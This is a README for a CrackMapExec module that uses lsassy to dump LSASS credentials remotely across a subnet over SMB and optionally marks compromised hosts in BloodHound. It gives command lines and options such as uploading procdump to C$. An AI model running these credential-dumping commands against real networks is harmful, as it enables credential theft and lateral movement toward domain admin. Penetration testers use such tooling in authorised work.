 # lsassy CrackMapExec Module

This CME module uses **lsassy** to remotely extract lsass password, and optionnaly interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables differents checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

Have fun
